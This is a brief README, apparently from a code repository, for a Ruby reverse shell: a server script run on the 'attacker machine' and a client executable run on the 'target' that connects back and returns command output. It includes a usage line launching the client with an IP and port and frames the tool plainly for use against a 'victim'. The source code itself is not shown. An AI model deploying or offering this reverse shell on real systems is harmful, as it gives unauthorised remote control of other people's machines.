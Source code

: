 # Ruby Reverse Shell

Requirements:
[o] = Server that receives the reverse shell must have ruby installed, they victim doesn't

These are scripts/exes that can be used as a better reverse shell. It's basically a reverse shell that sends the output of the executions back to you which wouldn't be possible with netcat.




Host the shell_server.rb on the attacker machine and then use the shell_client.exe / shell_client.rb to connect to it by calling it with these arguments on the target.

```
.\shell_client.exe *IP* *PORT*
```

